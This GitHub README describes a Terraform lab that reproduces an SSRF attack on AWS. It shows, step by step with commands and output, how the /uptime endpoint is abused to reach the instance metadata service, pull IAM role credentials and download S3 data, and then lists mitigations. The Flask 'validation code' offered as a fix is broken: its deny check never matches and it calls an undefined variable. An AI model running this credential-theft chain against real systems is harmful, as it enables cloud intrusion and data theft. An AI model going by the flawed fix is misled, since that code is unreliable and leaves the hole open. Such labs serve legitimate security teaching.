 # SSRF vulnerability demo
![AWS](https://img.shields.io/badge/AWS-%23FF9900.svg?style=for-the-badge&logo=amazon-aws&logoColor=white)![Terraform](https://img.shields.io/badge/terraform-%235835CC.svg?style=for-the-badge&logo=terraform&logoColor=white)

## Demo diagram 
![Diagram](/images/diagram.jpg)

## Purpose
Demonstrate a Server Side Request Forgery (SSRF) attack in the AWS environment, which results in data retrieving from s3, similar to the [CapitalOne breach](https://www.capitalone.com/digital/facts2019/).
The environment will be deployed with Terraform IaC module.



## Prerequisites
* Active AWS account.
* AWS IAM user with AWS credential type: ["Access key - Programmatic access"](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) and [AdministratorAccess](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html)

*  [Terraform installed](https://learn.hashicorp.com/tutorials/terraform/install-cli)
* Clone this repo to the environment which you run terraform from : 
```console
git clone https://github.com/ramibo/ssrf_aws_demo.git 
```
* [create a key pair ( the public key will be auto imported later to Amazon EC2 by terraform ).](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/create-key-pairs.html)

* In the following files , set the parameters with your own values  :</br></br>__terraform.tfvars__:</br> `availability_zone` , `key_name`,`public_key`</br></br>__providers.tf__ :</br> `shared_config_files`,`shared_credentials_files`, `profile` , `region`



## Running the demo

1. `cd` to the  `ssrf_aws_demo` directory.

2. Run `terraform init` command to prepare your working directory for the next commands.

3. Run `terraform validate` command to check whether the configuration is valid.

4. Run `terraform plan` command to show the changes required by the current configuration.

5. Run `terraform apply` / `terraform apply -auto-approve` to create/update the infrastructure at AWS.

6. If there are no errors from the previous steps , from your terminal, run the following:
<br>__Important__<br> - The `host` can be the created ec2 instance [Public IPv4 address / DNS ](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-instance-addressing.html#concepts-public-addresses).<br>- In the next steps `bash$` prompt with `"command"` is for commands you need to run.

```console
bash$ curl -s http://host:5000 
AWS SSRF IMDSv1 demo
```

7. The `/uptime` page is vulnerable to an SSRF attack: 
We will utilize the URL parameter with the instance metadata URI --> retrieve the attached IAM role --> extract the security credentials as follows: 
```console
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_ssrf_demo_iam_role
{
  "Code" : "Success",
  "LastUpdated" : "2022-12-20T20:56:29Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIASF",
  "SecretAccessKey" : "Id+zUu",
  "Token" : "IQoJb3JpZ2luX2VjEEUaCXVzLW",
  "Expiration" : "2022-12-21T03:31:14Z"
}
```

8. From the attached role security credentials output you got in your environment,  copy the values of : 
`AccessKeyId` 
`SecretAccessKey` 
`Token`

9. With AWS CLI - configure a new `aws_ssrf_demo_profile_s3` profile:
```console
aws configure --profile aws_ssrf_demo_profile_s3
```

10. Set the following parameters in your `"$HOME/.aws/credentials"` file with the value copied at step 8:
For example,
```console
[aws_ssrf_demo_profile_s3]
aws_access_key_id = ASIASF
aws_secret_access_key = Id+zUu
aws_session_token=IQoJb3JpZ2luX2VjEEUaCXVzLW
```

11. Get the data from s3  :
```console
# Get the list of s3 buckets
bash$ aws s3 ls --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:47 aws-ssrf-demo-s3-bucket

# Get the bucket content
bash$ aws s3 ls aws-ssrf-demo-s3-bucket --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:48        403 aws_ssrf_demo_data_file.json

# Create a directory
bash$ mkdir data_from_s3
bash$ cd data_from_s3/
bash$ ls -l
total 0

# Retrive the JSON file from the bucket
bash$ aws s3 cp s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json /$HOME/data_from_s3/ --profile aws_ssrf_demo_profile_s3 
download: s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json to ./aws_ssrf_demo_data_file.json

bash$ ls -l
total 8
-rw-r--r--  1 user  group  403 Dec 20 22:55 aws_ssrf_demo_data_file.json


!!! The SSRF attack was successful!!!
```

12. Run `terraform destroy` / `terraform destroy -auto-approve` to remove the infrastructure created at AWS.
## Mitigation Steps



1. Enabling IMDSv2 :</br> 
This step enforces requests to use a session token (applied in aws-ec2-metadata-token header ) that can only be used directly from the EC2 instance where that session began.</br> 
This step is the first that should be taken as the IMDSv2 service acts as a parallel layer to any application or web app firewall (WAF) vulnerability/misconfiguration which we might not be aware of yet.</br>  
In addition , the effort to apply it is minor ( updated AWS SDKs and CLIs) compared to the next options.</br>  
For our case (before `terraform destroy` ) run :


```console
aws ec2 modify-instance-metadata-options \
    --instance-id i-1234567898abcdef0 \
    --http-tokens required \
    --http-endpoint enabled
```

For example
```console
bash$ curl -s http://host:5000
AWS SSRF IMDSv1 demo

bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role 

bash$ aws ec2 modify-instance-metadata-options --instance-id i-00d044e5f852fd277 --http-tokens required --http-endpoint enabled --profile aws_ssrf_demo_profile

bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>401 - Unauthorized</title>
 </head>
 <body>
  <h1>401 - Unauthorized</h1>
 </body>
</html>

```
[More details on how to configure the instance metadata options](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-options.html).

2. Fix the application running in the ec2 instance by adding validation all client-supplied input data.</br>
For example , 
```python
#vulnerable code
@app.route('/uptime')
def url():
    url = request.args.get('url', '')
    if url:
        content = requests.get(url).text
        return (content)

#validation code
@app.route('/uptime')
def url():
    DENYURL = "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
    url = request.args.get('url', '')
    
    if url:
        if DENYURL in url:
               raise ValueError

        else:
            content = requests.get(valid_url).text
            return (content)
```
3. Reduce permissions in the IAM role towards the s3 bucket.</br>
For example:</br>
```console
{
        Action = [
          "s3:*", #--> set specifc avtion like "s3:ListAllMyBuckets",
        ]
        Effect   = "Allow"
        Resource = "*" #--> set specific bucket name like "arn:aws:s3:::mys3bucket/*"
      },
```


## References
* [FreeCodeCamp - Learn Terraform (and AWS) by Building a Dev Environment – Full Course for Beginners](https://www.youtube.com/watch?v=iRaai1IBlB0)
* [An SSRF, privileged AWS keys and the Capital One breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [How to hack AWS instances that have the metadata service (IMDSv1) enabled](https://alexanderhose.com/how-to-hack-aws-instances-with-the-metadata-service-enabled/)

* https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/
